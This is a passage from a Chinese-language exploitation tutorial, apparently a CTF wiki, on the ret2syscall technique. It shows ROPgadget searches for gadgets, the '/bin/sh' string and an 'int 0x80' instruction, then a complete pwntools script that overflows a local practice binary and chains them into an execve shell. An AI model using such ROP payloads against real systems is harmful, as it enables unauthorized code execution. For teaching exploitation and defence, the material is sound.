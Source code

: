 这里，我选择

```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这个可以直接控制其它三个寄存器。

此外，我们需要获得 /bin/sh 字符串对应的地址。

```shell
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

```text
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

同时，也找到对应的地址了。

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

### 题目

## ret2libc

### 原理
